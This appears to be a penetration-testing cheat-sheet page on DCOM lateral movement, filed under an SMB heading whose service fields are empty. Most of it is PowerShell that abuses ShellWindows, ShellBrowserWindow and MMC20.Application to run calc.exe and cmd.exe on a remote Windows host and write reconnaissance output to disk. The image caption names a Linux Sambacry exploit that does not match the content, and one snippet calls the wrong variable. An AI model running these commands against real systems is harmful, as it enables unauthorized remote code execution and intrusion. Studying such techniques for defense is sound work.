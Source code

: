![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_4.png)

## <a name='smb'></a>smb


* service-port   : 
* service-process: 
* artifacts      : 


### <a name='dcom'></a>dcom

▶️ PLAY :
```powershell
# dcom shellwindows
ShellWindows:-
$calc = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("calc.exe")

# dcom shellbrowserwindow
$calc2 = [activator]::CreateInstance([type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","10.x.x.7"))
$calc[0].Document.Application.ShellExecute("cmd.exe", "/c (whoami & hostname & dir c:\) > c:\temp\test.txt", "c:\windows\system32", $null, 7)

# dcom mmc20
$shell = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.x.x.7"))
$shell = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.x.x.7"))
$shell.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c whoami & hostname > c:\temp\test.txt","7")
```
